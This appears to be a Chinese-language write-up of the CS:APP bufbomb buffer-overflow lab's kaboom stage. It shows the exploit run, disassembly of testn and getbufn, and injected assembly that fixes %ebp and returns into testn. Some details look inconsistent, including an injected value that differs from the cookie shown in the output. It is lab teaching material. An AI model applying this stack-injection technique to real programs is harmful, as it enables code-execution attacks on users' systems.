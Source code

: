 攻击成功显示如下：

```
linux>$ cat kaboom.txt | ./hex2raw -n | ./bufbomb -n -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
VALID
NICE JOB!
```

### 过程

- 每次`%ebp`的值会改变（无法使用上一题的做法）。所以得要知道如何得到`%ebp`的值，观察`testn`汇编代码：

```
08049568 <testn>:
 8049568:	55                   	push   %ebp
 8049569:	89 e5                	mov    %esp,%ebp
 804956b:	83 ec 18             	sub    $0x18,%esp
 804956e:	e8 2d 04 00 00       	call   80499a0 <uniqueval>
 8049573:	89 45 f0             	mov    %eax,-0x10(%ebp)
 8049576:	e8 b5 06 00 00       	call   8049c30 <getbufn>
 804957b:	89 45 f4             	mov    %eax,-0xc(%ebp)
 804957e:	e8 1d 04 00 00       	call   80499a0 <uniqueval>
 8049583:	8b 55 f0             	mov    -0x10(%ebp),%edx
 8049586:	39 d0                	cmp    %edx,%eax
 8049588:	74 12                	je     804959c <testn+0x34>
```

得出：① $ ebp = esp + 0x18$ ② $getbufn$ 返回地址为： $0x804957b$

那么就可以写出插入的汇编代码片段：

```
movl    $0x6e6b5dca,%eax
lea     0x18(%esp),%ebp
push    $0x804957b
ret
```

得出机械语言(**要使用32位的环境！！**)

```
08049c30 <getbufn>:
 8049c30:	55                   	push   %ebp
 8049c31:	89 e5                	mov    %esp,%ebp
 8049c33:	81 ec 68 02 00 00    	sub    $0x268,%esp
 8049c39:	83 ec 0c             	sub    $0xc,%esp
 8049c3c:	8d 85 9b fd ff ff    	lea    -0x265(%ebp),%eax
 8049c42:	50                   	push   %eax
 8049c43:	e8 3c fa ff ff       	call   8049684 <Gets>
 8049c48:	83 c4 10             	add    $0x10,%esp
 8049c4b:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c50:	c9                   	leave  
 8049c51:	c3                   	ret  
```
